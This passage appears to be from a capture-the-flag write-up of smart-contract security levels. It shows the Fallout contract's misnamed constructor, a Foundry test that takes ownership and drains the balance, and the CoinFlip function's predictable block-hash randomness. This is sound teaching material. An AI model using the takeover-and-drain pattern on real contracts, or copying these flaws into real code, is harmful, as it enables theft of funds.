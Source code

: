 ## Level 3: Fallout

### 🔍 Vulnerable Function
```solidity
function Fal1out() public payable {
    owner = payable(msg.sender);
    allocations[owner] = msg.value;
}
```

**Vulnerability**: The function `Fal1out()` is incorrectly named. It looks like a constructor but is actually a public function. Anyone can call it and become the `owner`.

### 🧪 Exploit Test
```solidity
function test_attack() public {
    vm.startPrank(attacker2);
    _fallout.allocate{value: 2 ether}();
    vm.stopPrank();

    vm.startPrank(attacker);
    _fallout.Fal1out{value: 2 ether}();
    _fallout.collectAllocations();

    assertTrue(address(_fallout).balance == 0, "attacker balance should be 0");
    vm.stopPrank();
}
```



---

## Level 4: CoinFlip

### 🔍 Vulnerable Function
```solidity
function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
        revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
        consecutiveWins++;
        return true;
    } else {
        consecutiveWins = 0;
        return false;
    }
}
```
